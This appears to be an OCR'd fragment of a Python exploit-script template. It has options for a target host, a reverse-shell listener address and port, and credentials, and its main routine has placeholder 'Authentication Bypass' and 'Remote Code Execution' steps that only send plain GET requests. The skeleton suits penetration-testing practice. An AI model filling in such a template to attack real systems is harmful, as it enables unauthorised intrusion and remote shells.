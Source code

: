 ```python
    try:
        if debug is True:
            proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
            r = requests.get(url, proxies = proxies)
        else:
            r = requests.get(url)
    except requests.exceptions.ProxyError:
        output.error('Is your proxy running?')
        sys.exit(-1)
    return r


def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    parser.add_argument('-d', '--debug', help='Instruct our web requests to use our defined proxy', action='store_true', required=False)
    args = parser.parse_args()

    # Instantiate our interface class
    global output
    output = Interface()

    # Banner
    output.header()

    # Debugging
    if args.debug:
        for k,v in sorted(vars(args).items()):
            if k == 'debug':
                output.warning(f"Debugging Mode: {v}")
            else:
                output.info(f"{k}: {v}")

    # Authentication Bypass
    sendGet(f"http://{args.target}", args.debug)

    # Remote Code Execution
    sendGet(f"http://{args.target}", args.debug)
    
    # Try Harder
    output.success('Exploit has been successfully executed. :eyes: on your listener!')
    
if __name__ == '__main__':
    main()

```
